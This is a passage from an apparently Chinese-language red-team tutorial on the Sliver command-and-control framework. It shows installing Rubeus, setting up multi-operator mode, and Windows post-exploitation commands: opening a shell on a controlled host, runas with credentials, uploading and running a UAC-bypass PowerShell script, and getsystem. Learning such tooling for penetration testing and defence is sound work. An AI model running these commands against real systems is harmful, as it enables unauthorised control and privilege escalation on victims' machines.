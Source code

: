 ```shell
armory install rubeus
```

### Multiplayer | 多操作员模式

生成配置文件及开启多操作员模式

```shell
# 添加操作员，生成配置文件
new-operator --name x1gua --lhost 172.16.181.182
# 启动多操作员模式，及指定端口
multiplayer
multiplayer -l 8848 
```

![p9PNx4x.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-388879b883be45d1d34f7de635f16973fee22754.png)  
在另一台操作端上导入配置文件及连接 Sliver 服务端（这里以macos为例）

```shell
./sliver-client_macos import x1gua_172.16.181.182.cfg
./sliver-client_macos
```

![p9PNvU1.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-3cad7c6546cb3bd1a22960745d452c2475cc023d.png)

3.3 后渗透利用 - Windows
-------------------

### Execution | 执行命令

获取到控制权后，一些常见的命令执行：

```shell
# 开启一个命令行窗口shell
shell
# 执行命令
execute -o ipconfig
# 启动一个新进程运行指定命令
runas -p "ipconfig.exe" -u "xigua" -P "123.com"
```

![p9PNjER.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-74668b81c3220acd52c8e68e6833f7be38330281.png)

### Privilege Escalation | 权限提升

绕过 UAC 及获取 SYSTEM 权限

```shell
# 上传文件并执行，绕过uac提权 [这里似乎失败了]
upload /root/Desktop/uac.ps1 "C:\Users\Administrator\Desktop\uac.ps1"
execute -o powershell -ExecutionPolicy Bypass -File "C:\Users\Administrator\Desktop\uac.ps1"
getsystem
```

![p9PUSC6.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-a41c2e5321d88c076608eded6d602f236f28ef04.png)
